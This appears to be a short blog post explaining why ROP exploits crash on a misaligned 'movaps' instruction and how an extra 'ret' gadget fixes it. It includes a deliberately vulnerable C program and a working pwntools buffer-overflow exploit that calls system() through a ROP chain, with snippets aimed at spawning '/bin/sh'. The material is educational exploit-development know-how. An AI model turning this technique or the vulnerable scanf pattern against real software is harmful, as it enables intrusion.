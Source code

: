 ```yaml
---
title: "Debugging a movaps crash"
tags: ["mini", "ROP"]
---
```


When developing a ROP exploit I kept on crashing on a `movaps xmmword ptr [rsp], xmm0` instruction.

![](/assets/img/2020-10-07-1_movaps_crash.png)

After some investigating I found this was happening because the `movaps` (Move **Aligned** Packed Single-Precision Floating-Point Values) memory operands must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated. In the example above, the stack is not 16 byte aligned hence the crash.

The easiest way to fix our exploit is adding a `ret` gadget to our ROP chain which will act as a NOP, but increment the stack by 8, aligning it.

## Part 2
At some other time I had this simple ROP chain that sets `rdi` to `"/bin/sh"` and calls system from the `plt` of the program. However, even though `system` is called, no shell is popped and no crash happens inside `system`.

```python
ROP = "".join([
    set_rdi(bin_sh_addr),  # rsi = '/bin/sh'
    p64(base + elf.plt['system']),
])
```

Adding a `ret` before the call to `system` (any odd number of `ret`s would work), aligning the stack to 16 bytes, a shell pops. :O
```python
ROP = "".join([
    set_rdi(bin_sh_addr),  # rsi = '/bin/sh'
    p64(base + 0x5d0),     # ret  ---> ['0x5d0', ...]
    p64(base + elf.plt['system']),
])
```

As an example let's use this challenge and exploit to investigate it.
```cpp
#include <stdio.h>
#include <stdlib.h>

int put_system_in_got() {
    system("/bin/ls");
}

int main() {
    printf("'main' leak @ %p\n", main);
    char buf[256];
    printf("buf:");
    scanf("%512s", buf);
}
```

```python
#!/usr/bin/python2
from pwn import *
import sys

FILENAME = "./test"
elf = ELF(FILENAME)

def set_rdi(rdi):
    return "".join([
        p64(elf.address + 0x7d3), # ('pop rdi', 'ret') --> ['0x7d3']
        p64(rdi),
    ])

def go():
    s = process(FILENAME)
    if "wait" in sys.argv:
        raw_input("Enter any key to continue...")

    # ====================
    # leak
    s.recvuntil("'main' leak @ ")
    main_leak = int(s.recvline().strip(), 16)
    elf.address = main_leak - elf.symbols['main']
    print "      elf.address @", hex(elf.address)
    print "elf.plt['system'] @", hex(elf.plt['system'])

    # ====================
    # overflow
    # With a odd amount of ret's between set_rdi and system we see the 'ls'.
    # Otherwise "/bin/ls" does not run
    ROP = "".join([
        set_rdi(next(elf.search("/bin/ls"))),
        # p64(elf.address + 0x762), # ret
        p64(elf.plt['system']),
        p64(0xdeadbeef),
    ])
    payload = "A"*(256+8) + ROP
    s.sendline(payload)
    s.interactive()

go()
```

I started by using [PIN](https://software.intel.com/content/www/us/en/develop/articles/pin-a-dynamic-binary-instrumentation-tool.html) to trace the instructions of this binary when the exploit is successful (with the `ret`) and when it fails, but found no really interesting differences, contrary to what I thought was going to happen. Afterwards I decided to simply `strace` both versions. Nothing too interesting.

At this point I realized the new program (`bin/ls` in this case) is spawning but crashing for some reason. By running `strace -f` to follow the child process we can see big differences. When the exploit fails we see almost no output, meaning the program crashes almost immediatly. Let's confirm with `gdb`. To do this I place a breakpoint in the `clone` syscall inside `system` that spawns the new process and `set follow-fork-mode child` so gdb knows to follow the child. Step 10-20 times and we find our culprit.. `movaps` again!

![](/assets/img/2020-10-05-1_movaps_crash_2.png)
